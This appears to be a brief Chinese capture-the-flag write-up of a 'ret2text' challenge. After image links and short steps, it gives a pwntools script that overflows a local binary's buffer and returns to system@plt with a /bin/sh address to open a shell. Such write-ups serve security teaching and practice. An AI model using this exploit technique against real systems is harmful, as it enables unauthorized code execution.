



# ret2text

检查程序保护



查看反汇编





ida观察到有system函数，利用ROPgadget也可以查到/bin/sh字符串

构造exp

```python
from pwn import*
import time

sh = process('./ret2text')

#gdb.attach(sh)
#sleep(15)

system_plt = 0x080483B0
binsh = 0x08048660

payload = flat([b'a'*20,system_plt,0xcafeefac,binsh])

sh.sendline(payload)
sh.interactive()
```

